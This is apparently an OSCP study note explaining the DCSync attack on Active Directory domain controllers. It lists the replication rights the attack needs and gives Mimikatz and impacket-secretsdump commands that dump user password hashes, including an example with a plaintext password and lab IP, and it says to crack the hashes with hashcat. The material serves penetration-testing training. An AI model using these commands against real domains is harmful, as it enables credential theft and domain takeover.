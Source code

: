 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/6-dc-sync-attack/"}
---
```


---------
- Domain controllers typically rely on more than one DC for redundancy.
- Directory Replication Service (DRS) Remote Protocol uses "replication" to synchronize.
- A domain controller may request an update for a specific object using the "IDL_DRSGetNCChanges" API.
- Issuing an object update request from a user with certain privileges will work even though its not coming from a DC.
- To launch a replication the user needs rights to:
	- _Replicating Directory Changes_
	- _Replicating Directory Changes All_ 
	- _Replicating Directory Changes in Filtered Set_
- Normally, Domain Admins, Enterprise Admins, and Administrator groups have these rights, which will let them perform a "dcsync attack" to request any user hashes.
-------------------------------------
### Local DCSync Attack with Mimikatz:
1. Start Mimikatz.
2. Perform dump:
```
lsadump::dcsync /user:corp\Administrator
```
3. Crack NTLM with hashcat.
------------
### Remote DCSync Attack with Impacket:
1. Run attack from Kali:
```
impacket-secretsdump -just-dc-user <targetuser> <domain/user-to-authenticate>:"<password-with-escaped-chars>"@<auth-user-ip>
```
Example:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.72
```

